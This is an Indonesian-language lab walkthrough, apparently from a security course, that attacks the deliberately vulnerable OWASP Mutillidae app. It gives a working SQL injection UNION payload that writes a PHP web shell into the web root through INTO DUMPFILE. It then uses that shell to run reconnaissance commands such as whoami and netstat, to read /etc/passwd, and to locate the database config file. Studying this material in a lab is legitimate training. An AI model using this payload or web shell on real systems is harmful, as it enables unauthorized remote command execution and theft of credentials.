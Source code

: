 # SQL Injection Union Exploit #3 (Create PHP Execution Script)

1. Masuk ke halaman sqli user info dengan cara klik menu pada sidebar kiri ```Owasp Top 10 -> A1 - Injection -> SQLi - Extract Data -> User Info```
![1](/lesson10/1.png)

2. Lakukan inspect element pada kolom ```name``` lalu ubahlah sizenya menjadi 100 ```size="100"```. lalu masukkanlah kode sqli union dengan OUTFILE execution script dengan query:
```
' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/mutillidae/execute_command.php' --
```
![1](/lesson10/2.png)

3. Setelah itu ketikkan pada url
```
http://10.151.36.156/mutillidae/execute_command
```
maka akan muncul sebuah halaman untuk mengexecute command linux.
![1](/lesson10/3.png)

4. kita dapat coba untuk cek user yang sedang kita pakai dan sedang ada di direktori mana kita berada dengan mengetikkan
```
whoami;pwd
```
maka akan muncul respon seperti pada di gambar
![1](/lesson10/4.png)

5. untuk melihat siapa saja user yang sedang login, kita dapat menggunakan command
```
w
```
![1](/lesson10/5.png)

6. untuk melihat user yang terdaftar kita dapat menggunakan Command
```
cat /etc/passwd
```
![1](/lesson10/6.png)
user yang mempunya string nologin berpotensi untuk diserang

7. untuk melihat service dan port yang sedang berjalan kita dapat menggunakan command
```
netstat -nao | grep "0.0.0.0:"
```
![1](/lesson10/7.png)

8. untuk melihat konfigurasi database, kita dapat melihat isi dari config.inc dengan melakukan ls (list directory) dan melihat disitu ada file ```config.inc``` yang bisa dibuka lewat url pada browser.
![1](/lesson10/8.png)
![1](/lesson10/9.png)
![1](/lesson10/10.png)
![1](/lesson10/11.png)
